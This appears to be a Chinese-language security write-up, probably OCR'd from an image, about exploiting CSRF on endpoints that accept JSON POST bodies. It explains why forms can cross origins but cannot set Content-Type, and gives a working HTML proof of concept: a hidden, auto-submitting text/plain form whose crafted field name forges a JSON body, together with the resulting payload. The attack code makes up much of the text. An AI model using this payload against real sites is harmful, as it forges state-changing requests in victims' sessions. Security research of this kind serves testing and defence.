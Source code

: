 ＃起因
前段时间，看到一个POST为JSON格式的CSRF，并且验证了Content-Type是否是application / json。构造后发前段时间，看到一个POST为JSON格式的CSRF，并且验证了Content-Type是否是application/json。构造后发现：

-使用form能构造出JSON的跨域请求，但是无法设置Content-Type。
-使用XMLHttpRequest或fetch能构造出JSON请求并能设置Content-Type，但是无法跨域。

#POC
存在两种场景：

-JSON CSRF（未验证Content-Type）
-JSON CSRF（验证Content-Type）(可以利用flash的跨域 + 307跳转来构造POC，但是src已经不收这种，所以这里就不提了)
##JSON CSRF（未验证Content-Type）
可以使用form进行跨域，并构造出JSON格式数据。

使用form的POC
```html
<html>
<title>JSON CSRF POC</title>

<form action="http://test.joychou.org" method="POST" enctype="text/plain" >
    <input name='{"name":"attacker","email":"attacker@gmail.com","ignore_me":"' value='test"}' type='hidden'>
</form>

<script>
      document.forms[0].submit();
</script>

</html>
```
构造出的POST数据为
```
{name: "attacker", email: "attacker@gmail.com", ignore_me: "=test"}
```
